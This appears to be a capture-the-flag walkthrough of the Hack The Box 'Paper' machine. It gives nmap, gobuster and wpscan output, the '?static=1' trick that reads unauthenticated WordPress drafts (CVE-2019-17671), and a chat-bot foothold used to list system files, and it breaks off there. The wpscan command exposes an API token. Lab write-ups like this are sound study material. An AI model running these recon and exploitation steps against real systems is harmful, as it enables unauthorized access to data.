

# Paper

# Port Scan

This is the write up of Paper machine from Hack The Box.

First of all, we’ve started performing a full port scan on the machine.

```bash
─[us-dedivip-1]─[10.10.14.53]─[th3g3ntl3m4n@htb]─[~/htb/Paper]
└──╼ [★]$ sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.129.221.173

PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

Now, let’s performing a detailed versioned port scan.

```bash
─[us-dedivip-1]─[10.10.14.53]─[th3g3ntl3m4n@htb]─[~/htb/Paper]
└──╼ [★]$ sudo nmap -vv -A -sC -Pn -p 22,80,443 -oA nmap/paper 10.129.221.173

PORT    STATE SERVICE  REASON         VERSION                                                                                                                                                 
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 8.0 (protocol 2.0)                                                                                                                              
| ssh-hostkey:                                                                                                                                                                                
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)                                                                                                                                
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcZzzauRoUMdyj6UcbrSejflBMRBeAdjYb2Fkpkn55uduA3qShJ5SP33uotPwllc3wESbYzlB9bGJVjeGA2l+G99r24cqvAsqBl0bLStal3RiXtjI/ws1E3bHW1+U35bzlInU7AVC9HUW6IbAq+VNl
bXLrzBCbIO+l3281i3Q4Y2pzpHm5OlM2mZQ8EGMrWxD4dPFFK0D4jCAKUMMcoro3Z/U7Wpdy+xmDfui3iu9UqAxlu4XcdYJr7Iijfkl62jTNFiltbym1AxcIpgyS2QX1xjFlXId7UrJOJo3c7a0F+B3XaBK5iQjpUfPmh7RLlt6CZklzBZ8wsmHakWpysf
XN                                                                                                                                                                                            
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)                                                                                                                               
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE/Xwcq0Gc4YEeRtN3QLduvk/5lezmamLm9PNgrhWDyNfPwAXpHiu7H9urKOhtw9SghxtMM2vMIQAUh/RFYgrxg=                            
|   256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)                                                                                                                             
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKdmmhk1vKOrAmcXMPh0XRA5zbzUHt1JBbbWwQpI4pEX                                                                                                            
80/tcp  open  http     syn-ack ttl 63 Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)                                                                                           
| http-methods:                                                                                                                                                                               
|   Supported Methods: HEAD GET POST OPTIONS TRACE                                                                                                                                            
|_  Potentially risky methods: TRACE                                                                                                                                                          
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28                                                                                                                                
|_http-title: HTTP Server Test Page powered by CentOS                                                                                                                                         
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9                                                                                                                   
443/tcp open  ssl/http syn-ack ttl 63 Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)                                                                                           
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US/emailAddress=root@localhost.localdomain                                                     
| Subject Alternative Name: DNS:localhost.localdomain                                                                                                                                         
| Issuer: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US/organizationalUnitName=ca-3899279223185377061/emailAddress=root@localhost.localdomain

..........

| http-methods: 
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.16 (93%), Linux 3.18 (93%), ASUS RT-N56U WAP (Li
nux 3.4) (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Android 4.2.2 (Linux 3.4) (93%), Linux 2.6.32 (92%)
No exact OS matches for host (test conditions non-ideal).
```

Accessing the HTTP and HTTPS servers, we’ve got.



We can see the host is running a CentOS version 8. Let’s execute a brute-force directory on host.

Let’s execute a UDP port scan on host.

```bash
─[us-dedivip-1]─[10.10.14.53]─[th3g3ntl3m4n@htb]─[~/htb/Paper]
└──╼ [★]$ sudo nmap -v -sUV -Pn -oA nmap/paper-udp 10.129.221.173

PORT     STATE         SERVICE  VERSION
5353/udp open|filtered zeroconf

─[us-dedivip-1]─[10.10.14.53]─[th3g3ntl3m4n@htb]─[~/htb/Paper]
└──╼ [★]$ sudo nmap -sUC -p5353 10.129.221.173

```

# Enumeration

Performing a brute-force enumeration on service web on host.

```bash
─[us-dedivip-1]─[10.10.14.53]─[th3g3ntl3m4n@htb]─[~/htb/Paper]
└──╼ [★]$ gobuster dir -k -e -u "https://paper.htb/" -w "/opt/SecLists/Discovery/Web-Content/raft-large-directories.txt" -t 50 -x txt -o gobuster/paper_root_https

https://paper.htb/manual               (Status: 301) [Size: 233] [--> https://paper.htb/manual/]
```

Let’s enumerate the UDP service. After some researching and some tests, we weren’t able to enumerate the UDP port 5353.

In order to get more information about the GET request to the webserver, we’ve made a request using the netcat tool.

```bash
─[us-dedivip-1]─[10.10.14.53]─[th3g3ntl3m4n@htb]─[~/htb/Paper]
└──╼ [★]$ nc -v paper.htb 80
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Connected to 10.129.221.173:80.
GET / HTTP/1.0

HTTP/1.1 400 Bad Request
Date: Fri, 11 Feb 2022 21:44:33 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Content-Length: 226
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
</body></html>
```

We’ve got a Uncommon header when a request is made to the webserver which contains a possible host name: office.paper. Let’s write it down in our local hosts file.


Accessing [http://office.paper](http://office.paper) we’ve successfully head to the following page.

 


Let’s perform a brute-force directories on this host name.

```bash
─[us-dedivip-1]─[10.10.14.53]─[th3g3ntl3m4n@htb]─[~/htb/Paper]
└──╼ [★]$ gobuster dir -e -u "http://office.images/" -w "/opt/SecLists/Discovery/Web-Content/raft-large-directories.txt" -t 50 -x php,txt -o gobuster/office.paper_root

http://office.images/wp-includes          (Status: 301) [Size: 240] [--> http://office.images/wp-includes/]
http://office.images/wp-content           (Status: 301) [Size: 239] [--> http://office.images/wp-content/] 
http://office.images/wp-admin             (Status: 301) [Size: 237] [--> http://office.images/wp-admin/]   
http://office.images/index.php            (Status: 301) [Size: 1] [--> http://office.images/]              
http://office.images/manual               (Status: 301) [Size: 235] [--> http://office.images/manual/]     
http://office.images/wp-trackback.php     (Status: 200) [Size: 136]                                       
http://office.images/wp-login.php         (Status: 200) [Size: 3344]                                      
http://office.images/license.txt          (Status: 200) [Size: 19935]                                     
http://office.images/wp-config.php        (Status: 500) [Size: 1]                                         
http://office.images/wp-signup.php        (Status: 302) [Size: 1] [--> http://office.images/wp-login.php?action=register]
http://office.images/index.php            (Status: 301) [Size: 1] [--> http://office.images/]
```

As we can see, it’s running a WordPress CMS. Let’s perform a wpscan on the host.

```bash
─[us-dedivip-1]─[10.10.14.53]─[th3g3ntl3m4n@htb]─[~/htb/Paper]
└──╼ [★]$ wpscan --api-token przpfdBYKPiu7BQ9cW30s2OpufxvQ4ygX06iHTsrYTk --enumerate vp --plugins-detection aggressive --url http://office.images/ --output wpscan --format cli

[+] URL: http://office.images/ [10.129.221.173]
[+] Started: Fri Feb 11 18:20:10 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
 |  - X-Powered-By: PHP/7.2.24
 |  - X-Backend-Server: office.paper
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://office.images/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress version 5.2.3 identified (Insecure, released on 2019-09-05).
 | Found By: Rss Generator (Passive Detection)
 |  - http://office.images/index.php/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
 |  - http://office.images/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
 |
 | [!] 31 vulnerabilities identified:
 |
 | [!] Title: WordPress <= 5.2.3 - Stored XSS in Customizer
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/d39a7b84-28b9-4916-a2fc-6192ceb6fa56
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17674
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
 | [!] Title: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17671
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |      - https://github.com/WordPress/WordPress/commit/f82ed753cf00329a5e41f2cb6dc521085136f308
 |      - https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/
 |
 | [!] Title: WordPress <= 5.2.3 - Stored XSS in Style Tags
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/d005b1f8-749d-438a-8818-21fba45c6465
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17672
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
 | [!] Title: WordPress <= 5.2.3 - JSON Request Cache Poisoning
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/7804d8ed-457a-407e-83a7-345d3bbe07b2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17673
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://github.com/WordPress/WordPress/commit/b224c251adfa16a5f84074a3c0886270c9df38de
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
 | [!] Title: WordPress <= 5.2.3 - Server-Side Request Forgery (SSRF) in URL Validation
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/26a26de2-d598-405d-b00c-61f71cfacff6
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17669
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17670
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://github.com/WordPress/WordPress/commit/9db44754b9e4044690a6c32fd74b9d5fe26b07b2
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
 | [!] Title: WordPress <= 5.2.3 - Admin Referrer Validation
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/715c00e3-5302-44ad-b914-131c162c3f71
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17675
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://github.com/WordPress/WordPress/commit/b183fd1cca0b44a92f0264823dd9f22d2fd8b8d0
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
 | [!] Title: WordPress <= 5.3 - Authenticated Improper Access Controls in REST API
 |     Fixed in: 5.2.5
 |     References:
 |      - https://wpscan.com/vulnerability/4a6de154-5fbd-4c80-acd3-8902ee431bd8
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20043
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16788
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-g7rg-hchx-c2gw
 |
 | [!] Title: WordPress <= 5.3 - Authenticated Stored XSS via Crafted Links
 |     Fixed in: 5.2.5
 |     References:
 |      - https://wpscan.com/vulnerability/23553517-34e3-40a9-a406-f3ffbe9dd265
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20042
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://hackerone.com/reports/509930
 |      - https://github.com/WordPress/wordpress-develop/commit/1f7f3f1f59567e2504f0fbebd51ccf004b3ccb1d
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-xvg2-m2f4-83m7
 |
 | [!] Title: WordPress <= 5.3 - Authenticated Stored XSS via Block Editor Content
 |     Fixed in: 5.2.5
 |     References:
 |      - https://wpscan.com/vulnerability/be794159-4486-4ae1-a5cc-5c190e5ddf5f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16781
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16780
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-pg4x-64rh-3c9v
 |
 | [!] Title: WordPress <= 5.3 - wp_kses_bad_protocol() Colon Bypass
 |     Fixed in: 5.2.5
 |     References:
 |      - https://wpscan.com/vulnerability/8fac612b-95d2-477a-a7d6-e5ec0bb9ca52
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20041
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/b1975463dd995da19bb40d3fa0786498717e3c53
 |
 | [!] Title: WordPress < 5.4.1 - Password Reset Tokens Failed to Be Properly Invalidated
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/7db191c0-d112-4f08-a419-a1cd81928c4e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11027
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47634/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-ww7v-jg8c-q6jw
 |
 | [!] Title: WordPress < 5.4.1 - Unauthenticated Users View Private Posts
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/d1e1ba25-98c9-4ae7-8027-9632fb825a56
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11028
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47635/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-xhx9-759f-6p2w
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in Customizer
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/4eee26bd-a27e-4509-a3a5-8019dd48e429
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11025
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47633/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-4mhg-j6fx-5g3c
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in Search Block
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/e4bda91b-067d-45e4-a8be-672ccf8b1a06
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11030
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47636/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-vccm-6gmc-qhjh
 |
 | [!] Title: WordPress < 5.4.1 - Cross-Site Scripting (XSS) in wp-object-cache
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/e721d8b9-a38f-44ac-8520-b4a9ed6a5157
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11029
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47637/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-568w-8m88-8g2c
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in File Uploads
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/55438b63-5fc9-4812-afc4-2f1eff800d5f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11026
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47638/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-3gw2-4656-pfr2
 |      - https://hackerone.com/reports/179695
 |
 | [!] Title: WordPress <= 5.2.3 - Hardening Bypass
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/378d7df5-bce2-406a-86b2-ff79cd699920
 |      - https://blog.ripstech.com/2020/wordpress-hardening-bypass/
 |      - https://hackerone.com/reports/436928
 |      - https://wordpress.org/news/2019/11/wordpress-5-2-4-update/
 |
 | [!] Title: WordPress < 5.4.2 - Authenticated XSS in Block Editor
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/831e4a94-239c-4061-b66e-f5ca0dbb84fa
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4046
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-rpwf-hrh2-39jf
 |      - https://pentest.co.uk/labs/research/subtle-stored-xss-wordpress-core/
 |      - https://www.youtube.com/watch?v=tCh7Y8z8fb4
 |
 | [!] Title: WordPress < 5.4.2 - Authenticated XSS via Media Files
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/741d07d1-2476-430a-b82f-e1228a9343a4
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4047
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-8q2w-5m27-wm27
 |
 | [!] Title: WordPress < 5.4.2 - Open Redirection
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/12855f02-432e-4484-af09-7d0fbf596909
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4048
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/10e2a50c523cf0b9785555a688d7d36a40fbeccf
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-q6pw-gvf4-5fj5
 |
 | [!] Title: WordPress < 5.4.2 - Authenticated Stored XSS via Theme Upload
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/d8addb42-e70b-4439-b828-fd0697e5d9d4
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4049
 |      - https://www.exploit-db.com/exploits/48770/
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-87h4-phjv-rm6p
 |      - https://hackerone.com/reports/406289
 |
 | [!] Title: WordPress < 5.4.2 - Misuse of set-screen-option Leading to Privilege Escalation
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/b6f69ff1-4c11-48d2-b512-c65168988c45
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4050
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/dda0ccdd18f6532481406cabede19ae2ed1f575d
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-4vpv-fgg2-gcqc
 |
 | [!] Title: WordPress < 5.4.2 - Disclosure of Password-Protected Page/Post Comments
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/eea6dbf5-e298-44a7-9b0d-f078ad4741f9
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25286
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/c075eec24f2f3214ab0d0fb0120a23082e6b1122
 |
 | [!] Title: WordPress 4.7-5.7 - Authenticated Password Protected Pages Exposure
 |     Fixed in: 5.2.10
 |     References:
 |      - https://wpscan.com/vulnerability/6a3ec618-c79e-4b9c-9020-86b157458ac5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29450
 |      - https://wordpress.org/news/2021/04/wordpress-5-7-1-security-and-maintenance-release/
 |      - https://blog.wpscan.com/2021/04/15/wordpress-571-security-vulnerability-release.html
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-pmmh-2f36-wvhq
 |      - https://core.trac.wordpress.org/changeset/50717/
 |      - https://www.youtube.com/watch?v=J2GXmxAdNWs
 |
 | [!] Title: WordPress 3.7 to 5.7.1 - Object Injection in PHPMailer
 |     Fixed in: 5.2.11
 |     References:
 |      - https://wpscan.com/vulnerability/4cd46653-4470-40ff-8aac-318bee2f998d
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-36326
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19296
 |      - https://github.com/WordPress/WordPress/commit/267061c9595fedd321582d14c21ec9e7da2dcf62
 |      - https://wordpress.org/news/2021/05/wordpress-5-7-2-security-release/
 |      - https://github.com/PHPMailer/PHPMailer/commit/e2e07a355ee8ff36aba21d0242c5950c56e4c6f9
 |      - https://www.wordfence.com/blog/2021/05/wordpress-5-7-2-security-release-what-you-need-to-know/
 |      - https://www.youtube.com/watch?v=HaW15aMzBUM
 |
 | [!] Title: WordPress < 5.8.2 - Expired DST Root CA X3 Certificate
 |     Fixed in: 5.2.13
 |     References:
 |      - https://wpscan.com/vulnerability/cc23344a-5c91-414a-91e3-c46db614da8d
 |      - https://wordpress.org/news/2021/11/wordpress-5-8-2-security-and-maintenance-release/
 |      - https://core.trac.wordpress.org/ticket/54207
 |
 | [!] Title: WordPress < 5.8 - Plugin Confusion
 |     Fixed in: 5.8
 |     References:
 |      - https://wpscan.com/vulnerability/95e01006-84e4-4e95-b5d7-68ea7b5aa1a8
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44223
 |      - https://vavkamil.cz/2021/11/25/wordpress-plugin-confusion-update-can-get-you-pwned/
 |
 | [!] Title: WordPress < 5.8.3 - SQL Injection via WP_Query
 |     Fixed in: 5.2.14
 |     References:
 |      - https://wpscan.com/vulnerability/7f768bcf-ed33-4b22-b432-d1e7f95c1317
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-21661
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-6676-cqfm-gw84
 |      - https://hackerone.com/reports/1378209
 |
 | [!] Title: WordPress < 5.8.3 - Author+ Stored XSS via Post Slugs
 |     Fixed in: 5.2.14
 |     References:
 |      - https://wpscan.com/vulnerability/dc6f04c2-7bf2-4a07-92b5-dd197e4d94c8
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-21662
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-699q-3hj9-889w
 |      - https://hackerone.com/reports/425342
 |      - https://blog.sonarsource.com/wordpress-stored-xss-vulnerability
 |
 | [!] Title: WordPress 4.1-5.8.2 - SQL Injection via WP_Meta_Query
 |     Fixed in: 5.2.14
 |     References:
 |      - https://wpscan.com/vulnerability/24462ac4-7959-4575-97aa-a6dcceeae722
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-21664
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-jp3p-gw8h-6x86
 |
 | [!] Title: WordPress < 5.8.3 - Super Admin Object Injection in Multisites
 |     Fixed in: 5.2.14
 |     References:
 |      - https://wpscan.com/vulnerability/008c21ab-3d7e-4d97-b6c3-db9d83f390a7
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-21663
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-jmmq-m8p8-332h
 |      - https://hackerone.com/reports/541469

[+] WordPress theme in use: construction-techup
 | Location: http://office.images/wp-content/themes/construction-techup/
 | Last Updated: 2021-07-17T00:00:00.000Z
 | Readme: http://office.images/wp-content/themes/construction-techup/readme.txt
 | [!] The version is out of date, the latest version is 1.4
 | Style URL: http://office.images/wp-content/themes/construction-techup/style.css?ver=1.1
 | Style Name: Construction Techup
 | Description: Construction Techup is child theme of Techup a Free WordPress Theme useful for Business, corporate a...
 | Author: wptexture
 | Author URI: https://testerwp.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://office.images/wp-content/themes/construction-techup/style.css?ver=1.1, Match: 'Version: 1.1'

[i] No plugins Found.

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 3
 | Requests Remaining: 22

[+] Finished: Fri Feb 11 18:22:31 2022
[+] Requests Done: 3393
[+] Cached Requests: 5
[+] Data Sent: 911.576 KB
[+] Data Received: 873.314 KB
[+] Memory used: 217.258 MB
[+] Elapsed time: 00:02:20
```

Reading the first post on the blog, we can see that someone asking to stop to write secrets on draft posts. Knowing that and after running wpscan, the first vulnerability that calls our attentions was `[!] Title: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts` and after researching around, we’ve got the link [https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/](https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/) where it explains the vulnerability.

When we just add the parameter `?static=1` to the URL, we were able to see the drafts posts even being unauthenticated.


Let’s write the new host name chat.office.paper down to our local hosts file.


And accessing the URL.


Let’s registering a new user.


Now we can chat.


Reading the “General Chat” there is a entry point for us.


The Bot blocked our trying to inject commands.


We can list files from the system.


Finally we could list files on system.


